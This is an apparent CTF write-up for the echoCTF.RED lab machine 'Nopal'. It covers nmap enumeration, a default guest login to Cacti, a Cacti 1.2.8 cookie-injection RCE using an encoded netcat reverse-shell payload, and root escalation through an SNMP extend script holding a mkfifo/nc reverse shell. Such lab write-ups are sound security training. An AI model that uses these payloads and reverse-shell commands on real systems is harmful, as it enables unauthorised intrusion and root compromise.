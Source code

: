 ```yaml
---
layout: default
title : muzec - Nopal - echoCTF.RED
---
```



### Enumeration With Nmap

`nmap -p- --min-rate 10000 -oA nmap/allports -v 10.0.30.124`

```
# Nmap 7.91 scan initiated Fri Dec  3 09:28:53 2021 as: nmap -p- --min-rate 10000 -oA nmap/allports -v 10.0.30.124
Warning: 10.0.30.124 giving up on port because retransmission cap hit (10).
Increasing send delay for 10.0.30.124 from 320 to 640 due to 229 out of 762 dropped probes since last increase.
Increasing send delay for 10.0.30.124 from 640 to 1000 due to 136 out of 451 dropped probes since last increase.
Nmap scan report for 10.0.30.124
Host is up (0.14s latency).
Not shown: 37499 filtered ports, 28035 closed ports
PORT   STATE SERVICE
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
# Nmap done at Fri Dec  3 09:30:16 2021 -- 1 IP address (1 host up) scanned in 82.67 seconds
```

Now let use nmap default script and service detection to get more information from the target.

`nmap -sC -sV -oA nmap/normal -p 80 10.0.30.124`

```
┌──(muzec㉿Muzec-Security)-[~/Documents/echoctf/nopal]
└─$ nmap -sC -sV -oA nmap/normal -p 80 10.0.30.124            
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-03 09:58 WAT
Nmap scan report for 10.0.30.124
Host is up (0.42s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.10.3
|_http-server-header: nginx/1.10.3
|_http-title: Site doesn't have a title (text/html).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.92 seconds
```

Man am so excited over pwning Nopal man it was awesome i learn something new which is awesome so much awesome so without wasting to much of our time let just jump in since we have only HTTP port let hit it.

![image](https://user-images.githubusercontent.com/69868171/144599402-b7f2950b-5f34-4c5a-ae24-7d6dffaac686.png)

Now we have a login page wich is in need of a credentials and we have the version also before jumping in first what is cacti.

### CACTI

Cacti is an open-source, web-based network monitoring and graphing tool designed as a front-end application for the open-source, industry-standard data logging tool RRDtool. Cacti allows a user to poll services at predetermined intervals and graph the resulting data.

Now time to hit some research finding some default credentials luckily i came accross `guest/guest` and boom we are in.

![image](https://user-images.githubusercontent.com/69868171/144600226-fcf4ed27-f4ad-4a6b-b891-4806399193e3.png)


Now since we know the version let try find some exploit if it vulnerable. Found some interesting but it was in metasploit module so i try doing it manaully.

![image](https://user-images.githubusercontent.com/69868171/144600509-06f33c85-cf04-4e36-ad0d-f66da80b6b1f.png)

Boom yes it a Remote Code Execution exploit so let run it manaully.

### Cacti v1.2.8 Remote Code Execution Manually


![image](https://user-images.githubusercontent.com/69868171/144601048-8e96f891-db7c-43d7-8348-a46cdba882b9.png)

Navigating to `http://10.0.30.124/cacti/graph_realtime.php?action=countdown&top=0&left=0&local_graph_id=1826` so let intercept it using burp suite and send to repeater.

![image](https://user-images.githubusercontent.com/69868171/144601308-f33ad141-8ef9-424d-8712-ce05d9ce43df.png)

Right click and send to repeater.

![image](https://user-images.githubusercontent.com/69868171/144601464-ce352260-3406-4d2e-a3b5-9952c69688a8.png)

The vulnerable part is the Cookie session so we will be injecting our payload to the cookie.

![image](https://user-images.githubusercontent.com/69868171/144601984-cf287f62-b5be-413c-9f7c-5e2df0761eee.png)

If we want to use netcat to gain a shell, we need to create the following payload:

```
;nc${IFS}-e${IFS}/bin/bash${IFS}ip${IFS}port
```

I got an idea to use `${IFS}` bash variable which represent a space. And of course we need to escape the command using `;` to be like the above one.

Lets try it and see the results by encoding the payload first:

```
%3Bnc%24%7BIFS%7D%2De%24%7BIFS%7D%2Fbin%2Fbash%24%7BIFS%7D10%2E10%2E0%2E186%24%7BIFS%7D1337
```

![image](https://user-images.githubusercontent.com/69868171/144602556-3283b87c-47c9-41bf-9b30-4e766dd16d30.png)

Now let start our Ncat listener before running the payload.

![image](https://user-images.githubusercontent.com/69868171/144602636-6266aa16-512b-4359-841d-e09a90c62897.png)

Now we are ready let inject our payload and send.

![image](https://user-images.githubusercontent.com/69868171/144602771-fbac3201-0c72-4f83-ab5c-362ae5c5fdce.png)

Now send let check our Ncat listener.

![image](https://user-images.githubusercontent.com/69868171/144603088-f3d23c5e-d345-43fd-bda8-306d7c6dc4a0.png)

Boom we have shell let spawn a tty shell to make our shell more stable.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/echoctf/nopal]
└─$ nc -nvlp 1337                                 
listening on [any] 1337 ...
connect to [10.10.0.186] from (UNKNOWN) [10.0.30.124] 43204
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python -c 'import pty; pty.spawn ("/bin/bash")'
www-data@nopal:/opt/cacti$ ^Z
zsh: suspended  nc -nvlp 1337
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~/Documents/echoctf/nopal]
└─$ stty raw -echo;fg                                                                                                                                        148 ⨯ 1 ⚙
[1]  + continued  nc -nvlp 1337

www-data@nopal:/opt/cacti$ stty rows 17 cols 190
www-data@nopal:/opt/cacti$ export TERM=xterm
www-data@nopal:/opt/cacti$ 
```

![image](https://user-images.githubusercontent.com/69868171/144603333-56b1cbb2-a5af-473e-b7bd-3c55c0cd6c36.png)

We have one flag `/etc/passwd` four more to go let check what ports we have running locally.

```
www-data@nopal:/opt/cacti$ ss -tulpn
Netid  State      Recv-Q Send-Q                                               Local Address:Port                                                              Peer Address:Port              
udp    UNCONN     0      0                                                       127.0.0.11:42609                                                                        *:*                  
udp    UNCONN     0      0                                                        127.0.0.1:161                                                                          *:*                  
tcp    LISTEN     0      80                                                       127.0.0.1:3306                                                                         *:*                  
tcp    LISTEN     0      128                                                              *:80                                                                           *:*                   users:(("nginx",pid=420,fd=6))
tcp    LISTEN     0      128                                                     127.0.0.11:45841                                                                        *:*                  
www-data@nopal:/opt/cacti$ 
```
Seems we have SNMP port running let check for conf file.

![image](https://user-images.githubusercontent.com/69868171/144604042-be1fc891-607c-4d8e-b07e-0dbecc96cc7f.png)

`cat /etc/snmp/snmpd.conf` we have another flag which is cool but about the conf file something stand out `extend etsctf /tmp/snmpd-tests.sh` seems like to possible for us to get RCE with SNMP. So let do some research on it.


### SNMP RCE

SNMP is sometimes overseen by the administrator of the device or server where it is left in a default configuration. SNMP community with write permissions (`rwcommunity`) on the Linux operating system can be abused to let the attacker execute a command on the server.


![image](https://user-images.githubusercontent.com/69868171/144611403-f8ab2be8-65dd-49c9-8c90-0c55d2372b47.png)

*Source hacktricks*

### Extending The Services

While you are not able to modify existing entries that were configured in `snmpd.conf`, it is possible to add additional commands over SNMP, because the `MAX-ACCESS` permission setting in the MIB definition is set to `read-create`

Adding a new command basically works by appending an additional row to the `nsExtendObjects` table. Feel free tp read more here [Snmp Arbitary Command Execution And Shell](https://book.hacktricks.xyz/pentesting/pentesting-snmp/snmp-rce) Now let jump back to exploit our target.


We need to change directory to `/tmp` to create the file `snmpd-tests.sh` that will hold our reverse shell payload;

```
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.0.186 4444 >/tmp/f

```

Save in `snmpd-tests.sh` and make it executable with `chmod +x snmpd-tests.sh` and we should start our Ncat listener also before walking with SNMP.

![image](https://user-images.githubusercontent.com/69868171/144613065-89d3b8a6-2a94-446b-8eed-7fa1f7caca4e.png)


Now is the time to walk let run;

```
snmpwalk 127.0.0.1 -c public -v1 . -On
```

![image](https://user-images.githubusercontent.com/69868171/144613398-7d5b8f86-4f6e-4e4a-81f9-b517769c9f29.png)

Boom we have root shell and we have walk successfully which also execute the bash file with root privilege to give us root shell.


![image](https://user-images.githubusercontent.com/69868171/144613835-c13833fa-41fe-45c5-b872-0b2012e8f1a1.png)

We spawn a tty sheel to make it more stable now let get the flags.

![image](https://user-images.githubusercontent.com/69868171/144614463-0ad2b1aa-7c19-433c-8c00-7bc6de4d35bf.png)

`/etc/shadow` Flag


![image](https://user-images.githubusercontent.com/69868171/144614219-9a139101-fa79-4f28-8eac-3bd03a5cf593.png)

`/root` Flag. Now to get the last flag is `env` let check our process.

```
ps -aux
```

![image](https://user-images.githubusercontent.com/69868171/144614712-1be46c30-4ae8-4873-b83d-86d438997ce1.png)


Interesting let get it.

![image](https://user-images.githubusercontent.com/69868171/144614885-3ce607df-125a-4105-adba-11727a3388c2.png)


Boom and we are done.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
